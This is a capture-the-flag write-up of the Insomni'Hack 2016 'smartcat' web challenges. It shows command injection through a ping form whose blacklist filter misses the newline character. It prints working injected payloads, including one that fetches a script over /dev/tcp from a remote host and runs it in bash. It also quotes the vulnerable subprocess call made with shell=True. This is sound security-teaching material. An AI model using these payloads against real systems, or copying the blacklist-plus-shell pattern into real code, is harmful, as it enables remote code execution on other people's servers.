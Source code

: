 ```yaml
---
title:      Insomni'Hack Teaser 2016 - smartcat
author:
date:       2016-01-16 01:25:00
summary:    Thou shalt not use blacklists!
categories: Insomni'Hack Web
tags:
 - Insomni'Hack
 - Web
---
```


In the smartcat challenge, we were given a tiny web
application with just a single functionality: a form that allows
to remotely ping an arbitrary host (yeah, that is the most classical
example of shell command injection!).
The challenge is divided in two parts (smartcat1 and smartcat2).
Although not difficult, it was quite fun, especially the second part.




### smartcat1 (50 points)

> Damn it, that stupid smart cat litter is broken again! Now only the debug interface is available [here](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) and this stupid thing only permits one ping to be sent! I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me!

Pointing a browser to the debug interface, we are greeted with a form that
accepts a single parameter and
prints what seems the output of the Linux `ping` command. In fact, pinging
a non-existent host gives the message `Error running ping -c 1`.
Trying a trivial injection fails, and the error reveals that there is a blacklist
of allowed characters in the request string.
Good, otherwise the challenge would not have been fun at all!

After a few tries, we notice that the newline character (`0x0A`) is not blacklisted:
we are able to retrieve the path and content of the current directory with a POST
request to `index.cgi`, using `%0apwd%0als` as the `dest` parameter (i.e., the host to ping).
This leads to this output:

    /var/www/cgi-bin
    index.cgi
    there

Likely, the flag is in `there`, which is a directory. Unfortunately, the whitespace
character is blacklisted, so can't use the ls command to list the contents.
To overcome this issue, we used `find` (without any argument) to recurse into
the subdirectories of the current directory and list their content.
Doing a request with `dest=%0afind` as a parameter leads to:

    .
    ./index.cgi
    ./there
    ./there/is
    ./there/is/your
    ./there/is/your/flag
    ./there/is/your/flag/or
    ./there/is/your/flag/or/maybe
    ./there/is/your/flag/or/maybe/not
    ./there/is/your/flag/or/maybe/not/what
    ./there/is/your/flag/or/maybe/not/what/do
    ./there/is/your/flag/or/maybe/not/what/do/you
    ./there/is/your/flag/or/maybe/not/what/do/you/think
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

... and finally we just (smart)cat the flag: `dest=dest=%0acat<there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

{% highlight html %}
<p>Ping results:</p><br/>
  <pre>INS{warm_kitty_smelly_kitty_flush_flush_flush}
</pre>
{% endhighlight %}

By the way, using cat we can also retrieve the web application source code (`dest=%0acat<index.cgi`).
It is a simple Python CGI script, which filters the input according to a blacklist:

    blacklist = " $;&|({`\t"

and then passes it to the `ping` command without further sanitization:

    results = subprocess.check_output("ping -c 1 "+dest, shell=True)

### smartcat2 (50 points)

> Almost there, but now you should be able to do better than a cat (sorry about the pun). I'm sure you can leverage the previous bug to get a shell. Go on [that debug interface](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) again and read the flag in /home/smartcat/

Now we are told that the flag is in `/home/smartcat`.
As we can't use whitespaces, we need a smarter way to `cd` to that directory and list the content: using `dest=%0aHOME=/home/smartcat%0acd%0als` does the trick, and reveals that the directory contains two files:

    flag2
    readflag

We don't have the permissions to read `flag2`, but we can read and execute `readflag` (which is an executable binary).
Running it, we are greeted with this message:

> Almost there... just trying to make sure you can execute arbitrary commands....
Write 'Give me a...' on my stdin, wait 2 seconds, and then write '... flag!'.
Do not include the quotes. Each part is a different line.

At this point, we decided to use some bash-fu to retrieve and execute
a file from a remote host.
We used the `/dev/tcp` bashism to retrieve a script from an remote host, and give it
as an input to `bash`:

{% highlight bash %}
bash << EOF
bash < /dev/tcp/127.0.0.1/9000
EOF
ls
{% endhighlight %}

a.k.a. `dest=%0Abash<<EOF%0Abash</dev/tcp/127.0.0.1/9000%0AEOF%0Als`.
We terminate the command with `ls` so that the CGI application receives a successful return code in any case.
Instead of 127.0.0.1, we put the address of a publicly-accessible host
which was serving the following file on TCP port 9000:

{% highlight bash %}
#!/bin/bash

cd /home/smartcat
(
   echo "Give me a...""
   sleep 2
   echo "... flag!"
) | ./readflag
{% endhighlight %}

That was it. And the flag is...

    Flag:
                ___
            .-"; ! ;"-.
          .'!  : | :  !`.
         /\  ! : ! : !  /\
        /\ |  ! :|: !  | /\
       (  \ \ ; :!: ; / /  )
      ( `. \ | !:|:! | / .' )
      (`. \ \ \!:|:!/ / / .')
       \ `.`.\ |!|! |/,'.' /
        `._`.\\\!!!// .'_.'
           `.`.\\|//.'.'
            |`._`n'_.'|  hjw
            "----^----"
    
    INS{shells_are _way_better_than_cats}

Of course, with the same trick, we could also have launched an interactive reverse shell and read the flag from there :-)
